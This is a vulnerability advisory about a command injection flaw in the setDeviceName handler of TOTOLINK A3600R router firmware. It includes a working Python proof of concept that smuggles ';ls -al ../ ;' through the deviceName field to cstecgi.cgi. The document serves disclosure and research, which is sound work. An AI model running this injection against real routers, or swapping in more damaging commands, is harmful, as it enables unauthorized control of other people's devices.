 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

## Affected version

A3600R V4.1.2cu.5182_B20201102

## Vulnerability details

In the A3600R V4.1.2cu.5182_B20201102 firmware has a command injection vulnerability in the `setDeviceName` function. The `v6, v7` variable receives the `deviceMac, deviceName` parameter from a POST request. However, since the user can control the input of `deviceMac, deviceName`, the statement `system` can cause a command injection vulnerability.

![image-20240721000247869](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721000247869.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"deviceName":";ls -al ../ ;", "topicurl":"setting/setDeviceName"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

# ![image-20240721213628055](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721213628055.png)
